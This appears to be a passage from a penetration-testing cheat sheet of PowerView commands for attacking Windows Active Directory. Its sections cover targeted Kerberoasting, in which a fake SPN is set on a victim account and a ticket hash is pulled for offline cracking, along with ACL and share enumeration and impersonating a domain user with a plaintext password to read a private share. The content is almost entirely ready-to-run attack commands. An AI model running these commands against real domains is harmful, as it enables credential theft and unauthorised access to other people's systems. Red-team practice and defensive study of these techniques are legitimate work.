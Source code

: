 ### Targeted Kerberoasting

{% code overflow="wrap" %}
```powershell
Get-DomainUser 'victimuser' | Select serviceprincipalname
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash to crack
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```
{% endcode %}

### Enumerate User DACLs

{% code overflow="wrap" %}
```powershell
Get-DomainObjectAcl -Identity it_admin -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID burmat) }
```
{% endcode %}

### Enumerate Network Shares

{% code overflow="wrap" %}
```powershell
## scan an entire domain:
find-domainshare -computerdomain burmat.local

## narrow down scope, check permissions:
find-domainshare -computername websrv.burmat.local -computerdomain burmat.local -CheckShareAccess
```
{% endcode %}

### Impersonate Another Domain User

{% code overflow="wrap" %}
```powershell
$cred = New-Object System.Management.Automation.PSCredential "BURMAT\John.Smith", $(ConvertTo-SecureString "Spring2020!" -AsPlainText -Force);

Find-DomainShare -ComputerName fs01.burmat.local -Credential $cred -ComputerDomain burmat.local -CheckShareAccess

Invoke-UserImpersonation -Credential $cred

# now we can read the directory impersonating another user if permissions exist:
dir \\fs01.burmat.local\Private
```
{% endcode %}
